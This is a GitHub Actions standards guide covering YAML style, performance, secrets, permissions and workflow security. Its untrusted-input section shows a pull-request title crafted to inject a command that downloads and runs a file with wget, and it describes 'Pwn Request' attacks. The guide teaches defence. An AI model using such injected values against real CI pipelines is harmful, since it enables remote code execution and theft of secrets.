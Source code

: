 = TS-X GitHub Actions Standards
:toc: macro
:toc-title: Contents

:link-docs-concurrency: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#concurrency
:link-docs-permissions: https://docs.github.com/en/actions/writing-workflows/workflow-syntax-for-github-actions#permissions
:link-docs-security: https://docs.github.com/en/actions/security-guides/security-hardening-for-github-actions#using-third-party-actions
:link-docs-security-lab: https://securitylab.github.com/resources/github-actions-preventing-pwn-requests/

This document serves as a collection of best practices for using (and making)
GitHub Actions.

toc::[]

== YAML syntax

////
TODO: Link to YAML best practices
////

=== Readability

Actions and workflows are defined in YAML files. YAML is designed to be a
human-readable, as well as a machine-parsable, data serialization format. YAML
files SHOULD, therefore, be written primarily with readability in mind.

Consideration should also be given to the maintenance of YAML files. Give
thought, for example, to how diffs will be presented in source control and
pull request systems. For example, because Git is a line-based version control
system, it is best practice to use YAML's multi-line syntax for lists. So,
instead of:

[source,yaml]
----
on:
  push:
    branches: [ "main" ]
  pull_request:
    branches: [ "main" ]
----

This is better:

[source,yaml]
----
on:
  push:
    branches:
      - main
  pull_request:
    branches:
      - main
----

=== Inline documentation

YAML comment syntax SHOULD be used to document anything that is not intuitively
understood from the YAML data structure and the workflow/action schema.

== Workflows/actions schema

=== Expressions

Expressions are commonly used in `if` attributes to make execution of an
individual step or a whole job conditional.

[source,yaml]
----
jobs:
  production-deploy:
    if: github.repository == 'owner/repo' && github.ref == 'refs/heads/main'
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

The value of the `if` attribute is treated as a JavaScript expression, rather
than a string value. Expressions can be used in other attributes, which assume
string values by default, using the `${{ <expression> }}` notation. Even in
`if` values, if the expression starts with `!`, the whole expression MUST be
encapsulated in the `${{ }}` syntax, or escaped with `''`, `""`, or `()`.
That's because the exclamation mark is reserved notation in YAML.

For consistency, it is RECOMMENDED the `${{ <expression> }}` syntax be used to
wrap all expressions, even those in `if` values where this syntax is not
required.

[source,yaml]
----
jobs:
  production-deploy:
    if: ${{ github.repository == 'owner/repo' && github.ref == 'refs/heads/main' }}
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v2
      - uses: actions/setup-node@v2
        with:
          node-version: '14'
      - run: npm install -g bats
----

== Performance

=== Minimalism

Keep individual workflows, and reusable actions, as minimal as possible. The
more time something takes to set up and run, the higher the costs of running
your CI/CD infrastructure. Even shaving a few seconds off the run of a
workflow can add up to significant cost savings over a month, a year.

Prefer lightweight actions over heavyweight ones. Prefer JavaScript actions
over container actions, and best of all are composite actions consisting of
simple shell scripts. Where container actions are essential – for example where
you require a specific programming language or toolchain – prefer to use light
images, such as alpine or alpine-node, over heavy ones.

Don't install unnecessary dependencies.

=== Caching

Be sure to use caching wherever possible. Have package managers cache
dependencies, and cache any generated artifacts that can be reused between
jobs or workflow runs.

=== Timeouts

By default, GitHub kills jobs after 6 hours if they have not finished by
then. Many jobs don't need nearly as much time to finish, but sometimes
jobs can hang and the extended run consumes unnecessary minutes, which has a
cost.

It is RECOMMENDED to specify shorter timeouts that are appropriate for each job.
This is specified in minutes via the `jobs.<job_id>.timeout-minutes` attribute.
Example:

[source,yaml]
----
jobs:
  set_config:
    timeout-minutes: 30
    runs-on: ubuntu-latest
    steps:
      - [...]
----

=== Concurrency

It is RECOMMENDED to implement a concurrency strategy for workflows, especially
long-running, resource-intensive ones. This will cancel running workflows in the
same group when an event triggers a new run of the same workflow. For example,
you can automatically cancel intermediate builds on a PR when a newer commit
gets pushed to the PR's source branch.

[source,yaml]
----
concurrency:
  group: ${{ github.workflow }}-${{ github.ref }}
  cancel-in-progress: ${{ startsWith(github.ref, 'refs/pull/') }}
----

See the {link-docs-concurrency}[GitHub Docs] for further guidance.

== Security

See also {link-docs-security}[GitHub's Security Hardening for GitHub Actions]
guide, and also the series of posts on {link-docs-security-lab}[GitHub's
Security Lab] blog starting with "part 1: preventing pwn requests".

=== Secrets

Do not hard-code API keys, tokens, passwords, or other such secrets in workflow
files, even if those files are committed to private repositories.

All sensitive data MUST be managed via GitHub Secrets. GitHub Secrets provides a
safe way to store and use secrets in your workflows.

[TIP]
======
CI workflows are also a good place to implement secrets detection using tools
like https://github.com/GitGuardian/ggshield-action[GitGuardian].
======

Avoid storing long-lived secrets where possible. For example, rather than using
API keys to authenticate with your infrastructure providers, prefer using
OpenID Connect (OIDC).

=== Restricting permissions

By default, `GITHUB_TOKEN`, which is automatically generated on each run, is
given wide-ranging permissions to GitHub resources and operations. The principle
of least privilege should be applied to these tokens, which means restricting
permissions to the minimum required to do the job.

Permissions SHOULD be explicitly restricted on a per-workflow basis using
the `permissions` attribute.

[source,yaml]
----
name: Open new issue
on: workflow_dispatch

jobs:
  open-issue:
    runs-on: ubuntu-latest
    permissions:
      contents: read
      issues: write
    steps:
      - run: |
          gh issue --repo ${{ github.repository }} \
            create --title "Issue title" --body "Issue body"
        env:
          GH_TOKEN: ${{ secrets.GITHUB_TOKEN }}
----

See the GitHub Docs for a full {link-docs-permissions}[list of available
permissions].

=== Minimal scope

To limit their scope, environment variables should be declared at the step
level wherever possible. Elevate them to the job or (rarely) the workflow
level only to solve the problem of sharing data between steps within a job,
and between jobs within a workflow.

=== Untrusted input

Don't directly reference values you don't control. Consider the following
example:

[source,yaml]
----
- name: lint
  run: |
    echo "${{github.event.pull_request.title}}" | commitlint
----

This allows for injection of malicious code into the workflow. For example,
raising a PR with the following title...

[source,txt]
----
a" && wget https://example.com/malware && ./malware && echo "Title
----

... would cause the following code to be executed in your runner:

[source,txt]
----
echo “a" && wget https://example.com/malware && ./malware && echo "Title” | commitlint
----

The pull request body is also untrusted, as are all of the following event
context data:

* `github.event.issue.title`
* `github.event.issue.body`
* `github.event.pull_request.title`
* `github.event.pull_request.body`
* `github.event.comment.body`
* `github.event.review.body`
* `github.event.pages.*.page_name`
* `github.event.commits.*.message`
* `github.event.head_commit.message`
* `github.event.head_commit.author.email`
* `github.event.head_commit.author.name`
* `github.event.commits.*.author.email`
* `github.event.commits.*.author.name`
* `github.event.pull_request.head.ref`
* `github.event.pull_request.head.label`
* `github.event.pull_request.head.repo.default_branch`
* `github.head_ref`

There are two possible solutions. The RECOMMENDED one is to use an action
with arguments:

[source,yaml]
----
uses: fakeaction/printtitle@v3
with:
  title: ${{ github.event.pull_request.title }}
----

Alternatively, bind the value to an intermediate environment variable:

[source,yaml]
----
- name: Print title
  env:
    PR_TITLE: ${{ github.event.pull_request.title }}
  run: |
    echo "$PR_TITLE"
----

[NOTE]
======
It is best practice to double-quote shell variable to avoid word splitting.
This practice is relevant to shell scripting in general, and is not specific
to GitHub Actions.
======

More generally, be cautious when using any external input in your workflows.
For example, avoid using untrusted data in API calls where the data could be
interpreted as code (script injection).

=== Consuming open source actions

There are many open source GitHub Actions that can be plugged in to your own
workflows. However, just like with any open source software, open source actions
MUST be carefully audited before integrating them into your development
toolchain. The risks are similar to using package managers to automate the
integration of third party components into your applications.

The following steps are RECOMMENDED when using third-party actions:

* Use only actions that are actively maintained. Check that bugs are triaged
  and fixed, and that security vulnerabilities are patched, quickly.

* Use only actions that are published to the GitHub Marketplace, and only actions
  that have been verified by GitHub.

* Review the action's `action.yml` file for inputs and outputs, and check that
  the code does what it says it does.

* Include a specific version of the action, which you have audited. Best practice
  is to specify a commit SHA, rather than a branch or version tag. This ensures
  that the action's code is locked down and cannot be changed without you
  explicitly updating the version referenced from your workflow configuration,
  protecting you from supply-chain compromises.

[source,yaml]
----
- name: Checkout code
  uses: actions/checkout@a12a3943b4bdde767164f792f33f40b04645d846
----

=== External PRs

For public repositories, do not check out the code when using the
`pull_request_target` event.

[source,yaml]
----
on: pull_request_target
#...
  - uses: actions/checkout@v3
    with:
      ref: ${{ github.event.pull_request.head.sha }}
----

Normally, workflow runs triggered from forks do not have access to secrets,
or write access to the repository, because the runs happen in the context of the
_base_ branch of the PR. However, the `pull_request_target` event is a special
case. GitHub introduced this event type at the request of the open source
community so that workflows could be run in the context of the _target_ branch
of a PR. But this has important security implications.

Using the `pull_request_target` events means the workflow will have access to
your secrets and write access to your code. Iff the workflow is also checking out
and running code from the repository, that code can't be trusted because it has
come from the external contributor. You're opening up your workflow to remote
code execution.

This security vulnerability is known as a "Pwn Request". It is a type of attack
where an attacker forks a public repository, creates a pull request to the
original repository, and then triggers a workflow run on the original repository
that checks out the attacker's code. The attacker can use their own code in the
context of the original repository. This could be used to extract secrets,
modify the repository's code, or even take over the repository.

Therefore, whenever you use `pull_request_target` in a workflow, the workflow's
jobs MUST NOT check out, build, or run the repository's code. All code executed
in a `pull_request_target` workflow MUST be defined within the workflow
configuration itself.

There is more detail on this attack vector on {link-docs-security-lab}[GitHub's
Security Lab] blog.

For all other workflow triggers in public repositories, it is RECOMMENDED to
disable automatic workflow runs from forks. Workflows on pull requests to
public repositories from _first-time_ outside contributors will not run
automatically by default. It is strongly RECOMMENDED that you disable automatic
workflow runs triggered by external contributors all of the time. This means
that project maintainers can review code in external PRs before triggering the
CI to run on those changes. Workflow approval requirements can be configured for
a repository, organization, or at the enterprise level.

More generally, when adding workflows to public repositories, consider the
security implications by asking the following questions:

* What events could trigger a workflow run?
* What code is running in the running?
* What data and secrets does that code access?
* Where did that code come from? Can it be trusted?

=== Self-hosted runners

Use self-hosted runners only for workflows in private repositories. Anything
that `runs-on: self-hosted` runners MUST also be kept private.

This is because, if in a public repository, third parties could run malicious
code on your self-hosted runners by forking the public repository and then
creating a pull request. The workflow would run in the context of the PR's base
branch, which is considered untrusted. The attacker could modify the workflow's
code, and this will be executed on your infrastructure (your self-hosted
runner).

If you are using self-hosted runners, you are fully responsible for hardening
your infrastructure to keep it secure from malicious use like this, for example
by:

* Configuring a dedicated low-privilege user.
* Using isolated and ephemeral workloads to execute the jobs.
* Implementing logging and monitoring to ensure visibility.

But the ultimate security is to make sure that your self-hosted runners can only
be used by trusted users inside your organization. That means keeping private
the workflows and actions that run on them.

[NOTE]
======
GitHub doesn't allow personal accounts to use self-hosted runners on public
repositories, but they do allow organizations to do so.
======

=== GitHub-hosted runners

It is recommended to pin workflows to specific runner versions, such as
`ubuntu-22.04` rather than `ubuntu-latest`. This means you must manually
update workflow configurations when old runner versions are deprecated,
but the tradeoff is your workflows will be more stable in the meantime.
(This is less an issue of security, more an issue of maintenance.)

[source,yaml]
----
# Prefer:
runs-on: ubuntu-22.04

# To:
runs-on: ubuntu-latest
----
